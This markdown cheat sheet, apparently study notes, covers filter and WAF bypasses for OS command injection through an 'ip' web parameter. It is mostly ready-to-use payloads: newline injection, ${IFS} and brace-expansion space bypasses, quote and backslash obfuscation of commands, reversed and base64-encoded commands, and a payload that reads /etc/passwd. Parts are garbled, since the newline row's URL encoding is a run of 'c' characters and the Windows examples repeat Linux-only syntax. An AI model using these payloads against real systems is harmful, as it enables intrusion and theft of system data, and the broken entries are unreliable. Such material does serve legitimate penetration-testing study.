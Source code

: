 
| **Injection Operator** | **Injection Character** | **URL-Encoded Character**   | **Executed Command**                       |
| ---------------------- | ----------------------- | --------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | %3b                         | Both                                       |
| New Line               | `\n`                    | ccccccccccccccccccccccccccc | Both                                       |
| Background             | `&`                     | %26                         | Both (second output generally shown first) |
| Pipe                   | \|                      | %7c                         | Both (only second output is shown)         |
| AND                    | `&&`                    | %26%26                      | Both (only if first succeeds)              |
| OR                     | \|\|                    | %7c%7c                      | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | %60%60                      | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | %24%28%29                   | Both (Linux-only)                          |
### Blacklisted Characters

Try each of the above to find out which character is allowed, without an additional command. For example, the following is allowed (\n) where as all the other characters are blacklisted:

```bash
ip=127.0.0.1%0a
```

Next, add a space (+) to the command to verify if spaces are blacklisted. If this returns an error, spaces are black listed:

```bash
ip=127.0.0.1%0a+
```

### Using ${IFS}

A Linux Environment Variable using a space and a tab, and can be used for between command arguments. 

```bash
ip=127.0.0.1%0a${IFS}
```

The `Base Brace Expanse` automatically adds spaces between arrangements. E.g:

```bash
ip=127.0.0.1%0a{ls,-la}
ip=127.0.0.1%0a{ls,-la,index.php}
```

Using `${PATH:0:1}` add the character `/` to the path
Using `${LS_COLORS:10:1}` add the character `;` to the path

These can be useful when the `/` and `;` are blacklisted:

```bash
garffff@garffff:~$ echo ${PATH:0:1}
/
garffff@garffff:~$ echo ${LS_COLORS:10:1}
;
```

To look inside the directory:

```bash
ip=127.0.0.1%0a{ls,-la,${PATH:0:1}home${PATH:0:1}garffff}
```
### Blacklisted Commands

Common Command Bypasses. We cannot mix and match these, for example, if we use the `'` we have to stick with it.

Linux

```bash
whoami:
w'h'o'am'i
w"h"o"am"i
who$@ami
w\ho\am\i
```

Windows:

```bash
whomai:
who$@ami
w\ho\am\i
```

To read the passwd file, it would look something like this:

```bash
ip=127.0.0.1%0ac'a't${IFS}${PATH:0:1}etc${PATH:0:1}passwd
```

### Command Obfuscation

Useful when bypassing WAFs.

Linux:

The following replaces all uppercase characters with lowercase:

```bash
The following replaces all uppercase characters with lowercase:
(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

This prints whoami:
(a="WhOaMi";printf %s "${a,,}")
```

Windows:

```bash
WhOaMi
```
### Reversed Commands

The following will issue the `whoami` command when the input is reversed

```bash
echo 'whoami' | rev
$(rev<<<'imaohw')
```

Example:

```bash
ip=127.0.0.1%0a$(rev<<<'imaohw')
```

### Using Base64

Use base64 to encode the command:

```bash
echo -n 'whoami' | base64
d2hvYW1p

$(base64 -d<<<d2hvYW1p)
```

Use it in the command injection:

```bash
ip=127.0.0.1%0a$(base64%09-d<<<d2hvYW1p)
```

The following tool can be used to obfuscate bash commands:
https://github.com/Bashfuscator/Bashfuscator